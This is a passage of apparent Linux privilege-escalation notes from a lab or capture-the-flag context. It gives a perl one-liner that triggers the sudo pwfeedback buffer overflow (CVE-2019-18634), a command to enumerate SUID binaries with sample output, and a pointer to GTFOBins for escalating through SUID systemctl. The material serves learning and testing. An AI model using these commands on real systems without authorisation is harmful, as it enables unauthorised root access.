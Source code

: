 Due to a bug, when the pwfeedback option is enabled in the sudoers file, a user may be able to trigger a stack-based buffer overflow.  
This bug can be triggered even by users not listed in the sudoers file. There is no impact unless pwfeedback has been enabled.  
https://github.com/saleemrashid/sudo-cve-2019-18634

``` bash
$ perl -e 'print(("A" x 100 . "\x{00}") x 50)' | sudo -S id
```

## SUID
The SUID stands for setuid which means that a command runs as the owning user. This can be exploited for some services.

One way to find command with the SUID is to run this

``` bash
find / -perm -u=s -type f 2>/dev/null
```
what it does is find files from folder `/`, looking for permission where `u=s` and the type is `f` (file) and send errors to `/dev/null` 
Here is an example  
``` bash
$ find / -perm -u=s -type f 2>/dev/null
/usr/bin/newuidmap
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/newgrp
/usr/bin/gpasswd
/usr/bin/at
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/eject/dmcrypt-get-device
/usr/lib/squid/pinger
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/bin/su
/bin/ntfs-3g
/bin/mount
/bin/ping6
/bin/umount
/bin/systemctl
/bin/ping
/bin/fusermount
/sbin/mount.cifs
```

Looking at [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/#suid) for systemctl will give (kind of) this solution.
